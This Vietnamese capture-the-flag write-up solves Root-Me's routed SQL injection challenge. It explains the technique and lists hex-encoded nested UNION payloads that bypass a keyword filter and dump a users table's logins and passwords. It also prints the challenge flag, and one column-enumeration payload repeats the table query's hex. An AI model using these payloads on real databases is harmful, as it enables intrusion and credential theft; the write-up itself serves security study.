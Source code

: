 # SQL Injection - Routed

**Title**: Exploit my requests

**Point**: 35 Points

**Description**: Find the admin password.

## Solution: 

Bài này hơi dài, mình chia làm 2 phần:

<a href="#explain-and-analysis">1. Cho người newbie, cần giải thích</a>

<a href="#exploitation">2. Cho những người đã hiểu Routed SQLi và chỉ cần xem thẳng exploit</a>

### Explain and Analysis:

Chúng ta có một form đăng nhập như mọi lần

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161787127-6b0366e1-54b9-4850-81fc-60c3fdca89c7.png" > </p>

Tất nhiên, vẫn như mọi lúc nào, cái này chỉ để "bait" thôi 🙃. Nhập `'1` vào không có gì xảy ra, chỉ báo lỗi "Sai User hoặc Password". Tiếp theo chuyển qua Search box, nhập `'1` tiếp tục test: 

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161787720-0ad24b60-3c2c-42f4-9b02-d21e4a9fd0f0.png" > </p>

Kích lỗi lên thành công, xác định database là **MariaDB**. Giờ test một số ký tự và keyword để kiểm tra filter xí, sau một hồi test thì mình thấy có các filter sau:

Filter: `order` `and` `or` `,`  `"`. 

Với filter này mình có thể encode sang dạng **hex** để bypass.

Ồ kê, mấy cái checking cơ bản đã xong, giờ vào vấn đề chính. Đầu tiên, để hiểu kỹ các bạn nên xem tài liệu có sẵn của challenge (ngắn gọn và khá xúc tích) để hiểu **Route SQL** là gì: [Routed SQL Injection - Zenodermus Javanicus](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Routed%20SQL%20Injection%20-%20Zenodermus%20Javanicus.txt) 

Đại khái, chúng ta có thể hiểu kiểu truy vấn kiểu **Route SQL** là như thế này. Nơi chúng ta có thể inject vào (trong trường hợp này) là trong mệnh đề **WHERE** như mọi khi, nhưng output của câu truy vấn không được thể hiện ra bên ngoài. Vậy nó chạy đi đâu ? Output đó tiếp tục được làm input tại mệnh đề WHERE ở câu truy vấn thứ 2 (một câu truy vấn hoàn toàn khác) rồi output của câu truy vấn thứ 2 này mới hiện lên trang web. Tham khảo hình sau:

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161792538-0671671a-66f3-4aae-83f9-63f40b1e2f9e.png" > </p>

> Lưu ý: Có ai thắc mắc ai viết code kiểu này thì chịu, nếu nghĩ nó chặn được SQLi thì nhầm to, xong chall sẽ thấy :))

Vậy nên bình thường chúng ta hay sử dụng `union select 'abc', 'xyz', '123', ... -- ` thì sẽ hiện ra **'abc', 'xyz', '123', ...**. Còn trường hợp này thì không hiện ra gì luôn. Thử payload:

```
' union select 1 -- 
```

<p align="center"> <img width=400 height=250 src="https://user-images.githubusercontent.com/48288606/161793129-1be05194-a47d-4a22-98e9-fb27bff4c026.png" > </p>

Thấy lạ chưa ! Ta thấy kết quả trả về có khoảng 3 trường (đoán), vậy mà mình select chỉ có 1 cột thôi mà vẫn cho đúng. Đó là vì cái select 1 của mình không đi vào câu truy vấn thứ 2 để xuất ra output. Vậy ý tưởng là gì? Giả sử chúng ta có câu truy vấn lồng vào nhau dạng vậy thì sao:

```
' union select "'union select 1, 2' -- " -- 
```

Đoạn truy vấn trên có ý nghĩa gì? Đi vào câu truy vấn đầu tiên, `'union select {payload} --` sẽ bypass được mệnh đề WHERE và trả về giá trị của select. Vì vậy tại đây chúng ta lồng thêm một cái `{payload}` cũng là dạng `union select {payload} -- ` thì chuỗi này sẽ là output của câu truy vấn đầu tiên và truyền vào mệnh đề WHERE của câu truy vấn thứ 2 và bypass nó luôn. Mình có thể thực hiện một truy vấn bất kỳ tại chỗ này, thay `select 1` thành select bất kỳ thứ gì mình thích. Ví dụ như payload vừa rồi, nhưng mình sẽ chuyển sang **hex form** để "thông chốt"

> Lưu ý: Để chuyển sang hex form cho nhanh với một chuỗi mong muốn, ta dùng hàm **HEX()** trên MariaDB cho nhanh. Sau khi chuỗi chuyển sang hex form thì không cần cặp ngoặc kép hay ngoặc đơn nữa.

<p align="center"> <img width=330 height=200 src="https://user-images.githubusercontent.com/48288606/161796330-69c07409-5555-41a6-8a4b-52726f45814f.png" > </p>

Payload injected to second query: `' union select 1, 2 -- ` --> Hex form: `0x2720756E696F6E2073656C65637420312C2032202D2D20`

Payload: 
```
' union select 0x2720756E696F6E2073656C65637420312C2032202D2D20 -- 
```

<p align="center"> <img width=600 height=200 src="https://user-images.githubusercontent.com/48288606/161796759-496cb615-f500-4160-9109-c3ee5580f1a6.png" > </p>

Trùng khớp số cột trả về luôn (2 cột), đồng thời giá trị trường đầu tiên hiển thị là đoạn ta inject vào **WHERE** trong câu truy vấn thứ 2 . Thử select `@@version` trên MariaDB:

Payload injected to second query: `' union select 1, @@version -- ` --> Hex form: `0x2720756E696F6E2073656C65637420312C20404076657273696F6E202D2D20`

Payload: 
```
' union select 0x2720756E696F6E2073656C65637420312C20404076657273696F6E202D2D20  -- 
```

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161798457-f3c64315-4b1e-483e-b9db-2e433e2599e5.png" > </p>

Mượt luôn. Xong 90% rồi, giờ thì mình khai thác như một bài bình thường thôi.

### Exploitation:

Tìm tên bảng:

Payload injected to second query: `' union select 1, group_concat(table_name) from information_schema.tables -- ` 

--> Hex form: `0x2720756E696F6E2073656C65637420312C2067726F75705F636F6E636174287461626C655F6E616D65292066726F6D20696E666F726D6174696F6E5F736368656D612E7461626C6573202D2D20`

Payload: 
```
' union select 0x2720756E696F6E2073656C65637420312C2067726F75705F636F6E636174287461626C655F6E616D65292066726F6D20696E666F726D6174696F6E5F736368656D612E7461626C6573202D2D20 -- 
```

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161799078-b7f4972a-4e9e-45c1-8066-0dbccf840cc5.png" > </p>

> Lưu ý: tên bảng thường được lưu ở dưới cùng, kéo thanh ribbon qua hết sẽ thấy.

Tìm ra tên bảng là `users`. Giờ tìm tên cột của bảng này:

Payload injected to second query: `' union select 1, group_concat(column_name) from information_schema.columns where table_name='users' -- ` 

--> Hex form: `0x2720756E696F6E2073656C65637420312C2067726F75705F636F6E63617428636F6C756D6E5F6E616D65292066726F6D20696E666F726D6174696F6E5F736368656D612E636F6C756D6E73207768657265207461626C655F6E616D653D27757365727327202D2D20`

Payload: 
```
' union select 0x2720756E696F6E2073656C65637420312C2067726F75705F636F6E636174287461626C655F6E616D65292066726F6D20696E666F726D6174696F6E5F736368656D612E7461626C6573202D2D20 -- 
```

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161800087-c40d6c31-e513-43ae-a379-01d8eaafe9b0.png" > </p>

Lấy tất cả thông tin ra.

Payload injected to second query: `' union select 1, group_concat(id, ':', login, ':', password, ':', email) from users -- ` 

--> Hex form: `0x2720756E696F6E2073656C65637420312C2067726F75705F636F6E6361742869642C20273A272C206C6F67696E2C20273A272C2070617373776F72642C20273A272C20656D61696C292066726F6D207573657273202D2D20 `

Payload: 
```
' union select 0x2720756E696F6E2073656C65637420312C2067726F75705F636F6E6361742869642C20273A272C206C6F67696E2C20273A272C2070617373776F72642C20273A272C20656D61696C292066726F6D207573657273202D2D20 --
```

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161800984-29c0cbb6-37bc-4eca-a9d7-3059a301ffb1.png" > </p>

We've had it done !!! 🤪

> NOTE: Bản thân mình thấy bài này mang lại cách exploit mới, cần brainstorm tí. Nhưng mà có một điều mình không hiểu và đặt một câu hỏi lớn là AI LẠI CHƠI QUERY 2 LẦN THẾ NÀY? Mình thấy nó không thực tế lắm (' ~ '), ra để giải bài tập thì được

Flag: **qs89QdAs9A**
